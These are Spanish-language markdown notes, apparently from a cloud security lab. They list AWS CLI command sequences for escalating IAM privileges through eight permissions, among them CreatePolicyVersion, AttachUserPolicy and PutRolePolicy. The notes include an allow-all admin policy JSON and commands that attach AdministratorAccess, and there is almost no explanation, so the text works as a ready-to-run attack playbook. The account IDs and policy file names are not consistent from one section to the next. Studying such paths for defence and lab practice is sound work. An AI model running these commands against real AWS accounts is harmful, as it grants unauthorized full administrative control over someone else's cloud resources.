 # Permisos sobre Politicas
## iam:CreatePolicyVersion	
aws iam list-attached-user-policies --user-name privesc1-CreateNewPolicyVersion-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc1-CreateNewPolicyVersion --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc1-CreateNewPolicyVersion-role --role-session-name privesc1  
aws sts get-caller-identity --profile privesc1  
Crear el archivo admin_policy.json con el contenido  

```json
{
  ""Version"": ""2012-10-17"",
  ""Statement"": [
    {
      ""Sid"": ""PermitirTodo"",
      ""Effect"": ""Allow"",
      ""Action"": ""*"",
      ""Resource"": ""*""
    }
  ]
}
```

aws iam create-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc1-CreateNewPolicyVersion --policy-document file://admin_policy.json --set-as-default --profile privesc1  
	
## iam:SetDefaultPolicyVersion  
aws iam list-attached-user-policies --user-name privesc2-SetExistingDefaultPolicyVersion-user  
aws iam create-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion --policy-document file://admin_policy.json  
aws iam get-policy --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion  
aws iam set-default-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc2-SetExistingDefaultPolicyVersion --version-id v2 --profile privesc2  
	
## iam:AttachUserPolicy  
aws iam list-attached-user-policies --user-name privesc7-AttachUserPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc7-AttachUserPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc7-AttachUserPolicy-role --role-session-name privesc7  
aws iam attach-user-policy --user-name privesc7-AttachUserPolicy-user --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc7  
	
## iam:AttachGroupPolicy  
aws iam list-attached-user-policies --user-name privesc8-AttachGroupPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc8-AttachGroupPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc8-AttachGroupPolicy-role --role-session-name privesc8  
aws iam attach-group-policy --group-name privesc8-AttachGroupPolicy-group --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc8  
	
## iam:AttachRolePolicy  
aws iam list-attached-user-policies --user-name privesc9-AttachRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc9-AttachRolePolicy --version-id v1  
aws iam create-access-key --user-name privesc9-AttachRolePolicy-user  
aws iam attach-role-policy --role-name privesc9-AttachRolePolicy-role --policy-arn arn:aws:iam::aws:policy/AdministratorAccess --profile privesc9  
	
## iam:PutUserPolicy  
aws iam list-attached-user-policies --user-name privesc10-PutUserPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::583318501385:policy/privesc10-PutUserPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::583318501385:role/privesc10-PutUserPolicy-role --role-session-name privesc10  
aws iam put-user-policy --user-name privesc10-PutUserPolicy-user --policy-name politica --policy-document file://admin_policy.json --profile privesc10  
aws iam list-user-policies --user-name privesc10-PutUserPolicy-user  
	
## iam:PutGroupPolicy  
aws iam list-attached-user-policies --user-name privesc11-PutGroupPolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc11-PutGroupPolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc11-PutGroupPolicy-role --role-session-name privesc11  
aws sts get-caller-identity --profile privesc11  
aws iam put-group-policy --group-name privesc11-PutGroupPolicy-group --policy-name politica-PrivEsc2-Spartan --policy-document file://admin_politica.json --profile privesc11  
aws iam list-group-policies --group-name privesc11-PutGroupPolicy-user  
	
## iam:PutRolePolicy  
aws iam list-attached-user-policies --user-name privesc12-PutRolePolicy-user  
aws iam get-policy-version --policy-arn arn:aws:iam::651927172911:policy/privesc12-PutRolePolicy --version-id v1  
aws sts assume-role --role-arn arn:aws:iam::651927172911:role/privesc12-PutRolePolicy-role --role-session-name privesc12  
aws sts get-caller-identity --profile privesc12  
aws iam put-role-policy --role-name privesc12-PutRolePolicy-role --policy-name politica-PrivEsc3 --policy-document file://admin_politica.json --profile privesc12  
aws iam list-role-policies --role-name privesc12-PutRolePolicy-role  


